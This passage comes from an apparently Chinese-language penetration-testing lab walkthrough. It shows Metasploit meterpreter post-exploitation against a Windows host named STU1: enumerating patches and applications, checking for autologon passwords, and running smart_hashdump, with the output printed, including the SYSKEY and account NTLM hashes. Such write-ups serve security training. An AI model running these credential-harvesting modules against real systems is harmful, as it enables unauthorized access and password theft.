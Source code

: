 ```plain
run post/windows/gather/enum_patches
```

[![](assets/1701827767-8673bfdab0f19e3c2b73c4d4f667b239.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191413-ecb6c080-9103-1.png)

### 查看安装软件：

```plain
run post/windows/gather/enum_applications
```

[![](assets/1701827767-57578615ca6e42bd3e8ef767c98aa33d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191507-0cb4f366-9104-1.png)

### 获取密码：

#### 通过mimikatz获取用户名密码

#### 通过msf获取密码：

获取自动登录密码：

```plain
meterpreter > run windows/gather/credentials/windows_autologin
[] Running against STU1 on session 2 
[] The Host STU1 is not configured to have AutoLogon password
#在会话 2 上针对 STU1 运行 #主机 STU1 未配置为具有自动登录密码
```

[![](assets/1701827767-d4d14da12062335e5f2665b27041cd7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191522-15aff22c-9104-1.png)

查询hashdump：

```plain
run post/windows/gather/smart_hashdump
```

[![](assets/1701827767-573900ad4a84bac2d2786642415f73f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085347-bfa4cd6a-9308-1.png)

```plain
[] 针对 STU1 运行模块
[] 如果连接，哈希值将保存到数据库中。
[+] 哈希值将以 JtR 密码文件格式保存在战利品中： 
[] /root/.msf4/loot/20211105144910_default_192.168.254.130_windows.hashes_151319.txt
[] 倾销密码哈希... 
[] 以 SYSTEM 身份运行，从注册表中提取哈希值
[] 获取启动密钥... 
[] 使用 SYSKEY fd4639f4e27c79683ae9fee56b44393f 计算 hboot 密钥...
[] 获取用户列表和密钥... 
[] 解密用户密钥...
[] 转储密码提示...
[] 在这个系统上没有有密码提示的用户
[] 倾销密码哈希... 
[+] 管理员：500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
[+] srn7:1001:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::
```